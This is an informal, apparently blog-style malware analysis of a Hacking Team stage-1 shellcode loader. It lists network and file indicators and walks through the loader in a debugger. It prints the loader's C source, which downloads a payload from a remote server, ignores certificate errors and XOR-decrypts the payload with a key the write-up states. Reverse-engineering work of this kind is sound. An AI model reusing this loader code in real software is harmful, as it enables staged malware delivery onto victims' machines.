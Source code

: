 # Analysis for stage1 shellcode loader from hacking team

<figure><img src=".gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

Flowchart of code

<figure><img src=".gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

Network IoC

https://172\[.]20\[.]20\[.]164

```
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; MDDRJS)
```

Infection IoC(dropped files)

2s5s7k8w8b4i.dat

9z8o5d9l0p6c.dat

<figure><img src=".gitbook/assets/1 (17).png" alt=""><figcaption></figcaption></figure>



Ok so wtf . Let's get it . Loader.sln or loader.c

<figure><img src=".gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

ok so startup and from startup to asm ? what happens in asm ? pic(position independent code) shellcode. cool and what this do ? basically will do Loader(0xdeadbeef) why?? idk why they chose that address but at that address it should be unpacked code. anyway let's keep going and see what happens in debugger. Correction we do Loader(eax) and eax is an ip address with a .dat file ![](<.gitbook/assets/1 (4).png>)

Now if we follow the flow we go into loader&#x20;

<div><figure><img src=".gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure> <figure><img src=".gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure></div>

For now we will just skip LoadVtable as it ubiques and big and we will return to it after we finish analysing the rest of it's capabilities. Now we go and inspect DownloadAndDecryptTls.

<figure><img src=".gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

DownloadAndDecryptTls

<div><figure><img src=".gitbook/assets/3.png" alt=""><figcaption></figcaption></figure> <figure><img src=".gitbook/assets/1 (7).png" alt=""><figcaption></figcaption></figure> <figure><img src=".gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure></div>

Now a neat thing i notice during debugging.

<figure><img src=".gitbook/assets/1 (8).png" alt=""><figcaption></figcaption></figure>

Is that as you can see in the upper image and in the following snippet&#x20;

```
DWORD dwFileSize;
LPBYTE lpFileBuffer = DownloadAndDecryptTls(&pVtable, lpLoaderConfig->strUserAgent, 
		lpLoaderConfig->strUrl, 
		&dwFileSize, 
		lpLoaderConfig->dwXorKey, 
		lpLoaderConfig->dwXorKey ? TRUE : FALSE); 
```

is that it lpLoaderConfig is dynamically retrived. but from where? well apprently it downloads or uses internally that .dat file ? and what that .dat file is . Inspecting the archive

<figure><img src=".gitbook/assets/1 (9).png" alt=""><figcaption></figcaption></figure>

we see another cool file shellcode\_0x95d. If we inspect it in hxd

<figure><img src=".gitbook/assets/1 (10).png" alt=""><figcaption></figcaption></figure>

you'll see a bunch of api calls amd that url. so basically this is the actual shellcode :) dope we will take a look at it after we finish with this.

Now just for later xor key is 0x6281f17f. Now for a brief analyisis till the interest point ValidateCa. Till there nothing really special happen in this function most interesting thins is thet call to InternetOpenA, which initialises dll for networking stuff. Neat will be to inspect it dynamically to see one trick they did. The do it in c code by

&#x20;`hOpen = lpTable->InternetOpenA(strUserAgent, INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);`

which is one less argument ot the api. Anyway enough talk let's see what it happens in code.

So in debugger this looks like this

<figure><img src=".gitbook/assets/1 (11).png" alt=""><figcaption></figcaption></figure>

So i guess what happens here is because it uses INTERNET\_OPEN\_TYPE\_PRECONFIG it uses preconfigured structure and lptable has already the url in it .

Anyways next we have ValidateCA

<figure><img src=".gitbook/assets/1 (12).png" alt=""><figcaption></figcaption></figure>

so anyways why do we do this cause is simply determins if wanna do https or http

```
DWORD dwHttpsFlag = 0;

if( ValidateCA(lpTable) )
	dwHttpsFlag = INTERNET_FLAG_SECURE;
else
	dwHttpsFlag = INTERNET_FLAG_SECURE|INTERNET_FLAG_IGNORE_CERT_CN_INVALID|INTERNET_FLAG_IGNORE_CERT_DATE_INVALID;
```

Than we do a simple get request and than download file from http. Nothing too fancy here. if you wonder if anything special about hte code here i think not probably u can find exmaples on internet how to do this .How does DownloadFile function dowload files? using InternetReadFileExA.

So anyways here's the code

```
if( hOpen )
	{
		hConnect = lpTable->fpInternetConnect(hOpen,  serverName, INTERNET_DEFAULT_HTTPS_PORT, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0 );

		if( hConnect )
		{
			hReq = lpTable->fpHttpOpenRequest(hConnect, strGet, strResource, strHTTPVersion, NULL, NULL, dwHttpsFlag, 0 );

			if( hReq )
			{

			if( !ValidateCA(lpTable) )
			{
				DWORD dwFlags;
				dwBuffLen = sizeof(dwFlags);	
				lpTable->fpInternetQueryOption(hReq, INTERNET_OPTION_SECURITY_FLAGS,(LPVOID)&dwFlags, &dwBuffLen);
				dwFlags |= SECURITY_FLAG_IGNORE_UNKNOWN_CA;
				lpTable->fpInternetSetOption(hReq, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, sizeof (dwFlags) );
			}

				if( lpTable->fpHttpSendRequest(hReq, NULL, 0, NULL, 0) )
				{
					dwBuffLen = 16;
					dwIdx = 0;

					lpTable->HttpQueryInfoW(hReq, HTTP_QUERY_CONTENT_LENGTH, strBuff, &dwBuffLen, &dwIdx);
					*dwFileLen = lpTable->wtoi((LPWSTR) strBuff);

					LPBYTE lpFileBuffer = (LPBYTE) lpTable->VirtualAlloc(NULL, *dwFileLen, MEM_COMMIT, PAGE_READWRITE);			
					if (DownloadFile(lpTable, hReq, lpFileBuffer, *dwFileLen))
					{
						if (bXored)
							lpPayload = Decrypt(lpFileBuffer, *dwFileLen, dwXorKey);
						else
							lpPayload = lpFileBuffer;
					}
					
				} // if( lpTable->fpHttpSendRequest )
			} // if( hReq )
		} // if( hConnect )
	} // if( hOpen )


	/* close handles */
	if( hReq )
		lpTable->fpInternetCloseHandle(hReq);
	if( hConnect)
		lpTable->fpInternetCloseHandle(hConnect);
	if( hOpen)
		lpTable->fpInternetCloseHandle(hOpen);

	return lpPayload;
```

Now let's inspect the decrypt if check to see if it enteres the decrypt function or not. Based on my assumptions when experimenting bXored will be true so we should enter the decrypt function. Unfortunatelly our assumption was wrong because

![](<.gitbook/assets/1 (15).png>)

```
lpTable->fpHttpSendRequest is being used in the id not bXored and since the server is down
```

we won't be able to send a request to that mallicous server. Now i could emulate a server with frida but to what end cause we already have the payload outselves. now only to dissasamble it and decide if it's encrypted or not . Now the decryption also looks like&#x20;

```
LPDWORD lpD = (LPDWORD) lpBuffer;
LPBYTE lpB = (LPBYTE) lpBuffer;

for (UINT i=0; i<dwBuffLen/4; i++)
	lpD[i] ^= dwXorKey;
for (UINT i=dwBuffLen - (dwBuffLen%4); i<dwBuffLen; i++)
	lpB[i] ^= 0x41;

return lpBuffer;
```

which is a 2 key xor and dwXorkey is 0x6281f17f.

Now back to Loader function to solve the last part of the loader.

<figure><img src=".gitbook/assets/1 (16).png" alt=""><figcaption></figcaption></figure>
